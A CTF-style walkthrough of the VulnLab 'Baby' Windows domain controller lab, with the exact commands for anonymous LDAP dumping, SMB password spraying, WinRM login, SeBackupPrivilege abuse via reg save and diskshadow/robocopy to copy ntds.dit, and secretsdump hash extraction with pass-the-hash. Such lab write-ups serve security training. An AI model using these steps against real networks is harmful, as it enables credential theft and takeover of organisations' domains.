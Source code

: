 ```yaml
---
title: "VulnLab - Baby Writeup"
date: 2023-11-22
categories: ["Security"]
tags: ["CTF", "Writeup", "AD"]
---
```

![Baby Thumbnail](ctfs/vulnlab/baby/vl-baby.png)

This is a write-up of the Baby machine on [VulnLab](https://www.vulnlab.com/) by xct. This box deals with anonymous LDAP enumeration, and exploitation of the SeBackupPrivilege to exfiltrate and crack user hashes.

## User

Hint: `Look into anonymous LDAP Access.`

I started by performing an nmap scan of the machine, and got the following results:

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-11-15 01:00:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-11-15T01:01:42+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2023-11-15T01:01:02+00:00
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Not valid before: 2023-07-29T07:48:30
|_Not valid after:  2024-01-28T07:48:30
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-11-15T01:01:04
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

This gives us some helpful information such as the name of the domain and host we're working with (DC=baby,DC=vl), and running services.

### LDAP Enumeration

I utilized nmap to dump information about the domain with `nmap -n -sV --script "ldap* and not brute" -Pn IP`, and ldapsearch to dump the users with `ldapsearch -x -H ldap://IP:389 -b "DC=baby,DC=vl" > ldap-dump.txt` where we found a notable user:

```
# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to REDACTED
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151437.0Z
displayName: Teresa Bell
uSNCreated: 12889
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12905
name: Teresa Bell
objectGUID:: EDGXW4JjgEq7+GuyHBu3QQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819812778759642
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Teresa.Bell
sAMAccountType: 805306368
userPrincipalName: Teresa.Bell@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z
msDS-SupportedEncryptionTypes: 0
```

Teresa Bell had a password in the description for her user (redacted for walkthrough), but trying to connect with EvilWinRM failed due to not having the correct password, I decided to use CrackMapExec to spray these credentials across the other valid users we pulled from LDAP. 

### SMB Password Spray

Before we're able to spray the password we found we need to build a list of valid users, I did this by parsing the LDAP dump to pull out usernames in a format CME can read with `cat ldap-dump.txt | grep userPrincipalName | awk '{print $2}' | cut -d "@" -f 1`:

```
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
Caroline.Robinson
Ian.Walker
```

I used CrackMapExec to perform an SMB password spray against those users with `crackmapexec smb IP -u ./users.txt -p PASSWORD --shares`:

![SMB Password Spray](ctfs/vulnlab/baby/cme-smb-passwd-spray.png)

From this, we see that the password works on Caroline Robinson's account, but her password needs to be changed.

### Getting the Flag

Before we can login, we have to change the account's password. I utilized smbpasswd for this using `smbpasswd -r IP -U USER`. Next, we can login using EvilWinRM and get the user flag with `evil-winrm -i IP -u Caroline.Robinson -p PASSWORD`:

![User Flag](ctfs/vulnlab/baby/user-flag.png)

## Root

Hint: `Look at user privileges.`

I started by enumerating the permissions of our Caroline.Robinson user with `whoami /priv`:

![Initial Permissions](ctfs/vulnlab/baby/initial-privs.png)

### SeBackupPrivilege

Of note is the SeBackupPrivilege allows a user to backup any file on a machine, regardless of permissions. This includes things like the sam and system files which we can feed into secretsdump or mimikatz to extract user hashes. I moved into a directory where the user had write permissions and made copies of the sam and system files to download onto my machine with `reg save hklm\sam c:\Temp\sam` and `reg save hklm\system c:\temp\system`, and downloaded them with smbclient.

I then fed the files into mimikatz and got the following hashes:

![Local Hashes](ctfs/vulnlab/baby/local-creds.png)

However, when attempting to pass the Administrator hash to login with `evil-winrm -i IP -u 'administrator' -H 'HASH'`, it doesn't work because these are local accounts as opposed to domain accounts. To get the domain administrator hash that we need to log in, we have to use the SeBackupPrivilege to dump the ntds.dit file which is a database containing AD information including user objects. 

### Getting the Flag

We can make a copy of ntds.dit and dump it using diskshadow and robocopy.

I first created the following script to run with diskshadow, saved as `backup.txt`:

```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```

I ran it with `diskshadow /s backup.txt`, and was able to dump the ntds.dit with `robocopy /b E:\Windows\ntds . ntds.dit`. Feeding those into secretsdump with `impacket-secretsdump -ntds ntds.dit -system system.hive local` we get the domain administrator hash which we can pass to login and get the root flag:

![Root Flag](ctfs/vulnlab/baby/root-flag.png)
